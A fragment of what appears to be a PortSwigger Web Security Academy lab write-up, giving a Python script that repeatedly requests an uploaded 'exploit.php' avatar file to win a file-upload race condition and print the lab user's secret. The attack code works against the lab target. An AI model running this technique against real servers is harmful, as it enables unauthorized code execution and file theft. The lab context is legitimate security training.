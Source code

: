 ```php
```

2.** Stage_2: => _create file_**

```python
 condition-loop_reading.py
```

in _file_ this code: =>

```python
import requests
# This is root path "/" from site (lab)
burp0_url = "https://0adb002304670705828b06dc003200d4.web-security-academy.net:443/"

# This is cookies from root path "/" Burp
burp0_cookies = {"session": "dsJditl6sbuuzIcYdozN7K3PlGZvCeH1"}

# This is headers from root path "/" extension copy as request Burp
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "cross-site", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Sec-Ch-Ua": "\"Chromium\";v=\"121\", \"Not A(Brand\";v=\"99\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Referer": "https://portswigger.net/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-US,en;q=0.9", "Priority": "u=0, i"}
requests.get(burp0_url, headers=burp0_headers)

# save path exploit i temp_url1
temp_url1 = burp0_url + "files/avatars/exploit.php"
print(f"checking location: => \n {temp_url1}")

# loop func
def loop_reading():
   # start counter
	i=0
	while True:
		i +=1
		print(f"checked => {i} of times", end="\r")
      # save in response_temp1 all request
		response_temp1 = requests.get(temp_url1, headers=burp0_headers, cookies=burp0_cookies)

      # check if response not 404
		if b"404 Not Found" not in response_temp1.content:
			print(f"Carlos Secret is: => \n\n {response_temp1.content.decode()}")
			break

if __name__ == '__main__':
   # use function
	loop_reading()
```
